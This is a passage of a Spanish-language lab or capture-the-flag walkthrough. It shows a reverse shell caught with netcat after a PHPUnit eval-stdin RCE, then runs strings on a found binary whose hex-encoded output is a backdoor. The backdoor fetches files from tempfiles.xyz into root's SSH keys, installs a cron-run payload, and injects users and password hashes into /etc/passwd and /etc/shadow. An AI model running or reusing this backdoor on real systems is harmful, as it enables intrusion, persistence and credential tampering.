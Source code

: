 > La vulnerabilidad funciona con cualquiera de los **HTTP methods**
{: .prompt-tip}

En ambos casos solo queda ponerse en escucha con `nc` por el puerto especificado, ejecutar lo anterior, recibir la shell y pa-dentro:

```console
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.146] 38938
bash: cannot set terminal process group (866): Inappropriate ioctl for device
bash: no job control in this shell
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ 
```

> En resumen, el código PHP obtiene un archivo **_file_get_contents()_** a través del flujo de entrada **_php://input_**, luego lo convierte en cadena y lo ejecuta **_eval()_**

> Para información mas detallada puede visitar el siguiente articulo: [https://www.imperva.com/blog/the-resurrection-of-phpunit-rce-vulnerability/](https://www.imperva.com/blog/the-resurrection-of-phpunit-rce-vulnerability/)
{: .prompt-info}

Enumerando como el usuario **www-data** encontramos en `/var/backups` un binario interesante llamado `info` que solo nuestro usuario puede leer y ejecutar

Como es un binario intentamos leer las cadenas imprimibles que podemos visualizar con `strings`. Por ello, pasamos el archivo a nuestra máquina y visualizamos lo siguiente:

```console
❯ strings info
........
.....
..........
776765742074656d7066696c65732e78797a2f617574686f72697a65645f6b657973202d4f202f726f6f742f2e7373682f617574686f72697a65645f6b6579733b20776765742074656d7066696c65
732e78797a2f2e6d61696e202d4f202f7661722f6c69622f2e6d61696e3b2063686d6f6420373535202f7661722f6c69622f2e6d61696e3b206563686f20222a2033202a202a202a20726f6f74202f
7661722f6c69622f2e6d61696e22203e3e202f6574632f63726f6e7461623b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030207b737973
74656d28226563686f2022243122313a5c24365c247a5337796b4866464d673361596874345c2431495572685a616e5275445a6866316f49646e6f4f76586f6f6c4b6d6c77626b656742586b2e5674
47673738654c3757424d364f724e7447625a784b427450753855666d39684d30522f424c6441436f513054396e2f3a31383831333a303a39393939393a373a3a3a203e3e202f6574632f736861646f
7722297d27202f6574632f7061737377643b2061776b202d46223a2220272437203d3d20222f62696e2f6261736822202626202433203e3d2031303030207b73797374656d28226563686f20222431
22202224332220222436222022243722203e2075736572732e74787422297d27202f6574632f7061737377643b207768696c652072656164202d7220757365722067726f757020686f6d6520736865
6c6c205f3b20646f206563686f202224757365722231223a783a2467726f75703a2467726f75703a2c2c2c3a24686f6d653a247368656c6c22203e3e202f6574632f7061737377643b20646f6e6520
3c2075736572732e7478743b20726d2075736572732e7478743b
.......
.....
...........
```
